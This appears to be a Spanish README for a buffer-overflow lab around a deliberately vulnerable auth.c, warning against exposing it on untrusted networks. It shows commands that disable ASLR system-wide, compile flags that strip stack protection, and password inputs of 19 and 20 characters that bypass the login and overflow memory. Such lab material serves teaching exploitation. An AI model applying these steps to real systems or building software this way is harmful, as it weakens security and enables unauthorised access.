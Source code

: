 # Readme
Los ejemplos incluidos en este directorio son vulnerables y sensibles a ataques bufferoverflow, no los expongas en redes o equipos no confiables.

## Explotación auth.c
#### Previo
ASLR​  
Disposición aleatoria de espacio de direcciones​  

Desactivación del ASLR​  
echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space​  

Compilación​  
gcc -m32 -no-pie -fno-stack-protector -ggdb -mpreferred-stack-boundary=2 -z execstack -o auth.bin auth.c​

#### Explotación variable password

#./auth.bin user AAAAAAAAAAAAAAAAaaa  
Si escribimos por ejemplo 19 caracteres como contraseña, se consigue el acceso sin necesidad de conocer la contraseña  

#./auth.bin user AAAAAAAAAAAAAAAAaaaa  
Si escribimos 20 caracteres como contraseña, se provoca un desbordamiento de la memoria
